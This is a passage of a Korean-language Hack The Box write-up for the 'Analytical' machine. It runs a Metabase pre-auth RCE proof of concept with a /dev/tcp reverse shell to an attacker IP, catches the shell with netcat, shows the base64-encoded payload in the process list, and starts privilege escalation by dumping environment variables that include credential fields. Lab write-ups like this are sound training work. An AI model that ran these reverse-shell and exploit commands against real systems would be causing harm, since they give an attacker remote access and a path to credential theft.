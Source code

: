 처음 whoami를 입력해보니 단순히 전송하기만 하는 것으로 보인다. 즉, 반응이 되돌아오지는 않는 것이다. 그렇다면 바로 shell 연결을 시도해보자. 성공적으로 metabase 계정으로 연결되었다.
``` bash
# terminal 1
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# python main.py -u 'http://data.analytical.htb' -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "sh -i >& /dev/tcp/10.10.14.36/443 0>&1;"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent

# terminal 2
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.36] from analytical.htb [10.10.11.233] 40848
sh: can't access tty; job control turned off
/ $ whoami
metabase
```

## [0x02] privilege escalation
---
우선 process 목록을 보니 컨테이너로 되어 있는 것 같다. 
```
/ $ ps -ef
PID   USER     TIME  COMMAND
    1 metabase  2:13 java -XX:+IgnoreUnrecognizedVMOptions -Dfile.encoding=UTF-8 -Dlogfile.path=target/log -XX:+CrashOnOutOfMemoryError -server -jar /app/metabase.jar
  114 metabase  0:00 bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzYvNDQzIDA+JjE7}|{base64,-d}|{bash,-i}
  118 metabase  0:00 bash -i
  119 metabase  0:00 sh -i
  128 metabase  0:00 ps -ef
```

export를 통해 어떤 환경변수가 있는지 출력해보니 주요한 내용이 존재한다.
```
$ export
export FC_LANG='en-US'
export HOME='/home/metabase'
export HOSTNAME='7b3da3c2d349'
export JAVA_HOME='/opt/java/openjdk'
export JAVA_VERSION='jdk-11.0.19+7'
export LANG='en_US.UTF-8'
export LANGUAGE='en_US:en'
export LC_ALL='en_US.UTF-8'
export LC_CTYPE='en_US.UTF-8'
export LD_LIBRARY_PATH='/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib'
export LOGNAME='metabase'
export MB_DB_CONNECTION_URI=''
export MB_DB_FILE='//metabase.db/metabase.db'
export MB_DB_PASS=''
export MB_DB_USER=''
export MB_EMAIL_SMTP_PASSWORD=''
export MB_EMAIL_SMTP_USERNAME=''
export MB_JETTY_HOST='0.0.0.0'
export MB_LDAP_BIND_DN=''
export MB_LDAP_PASSWORD=''
```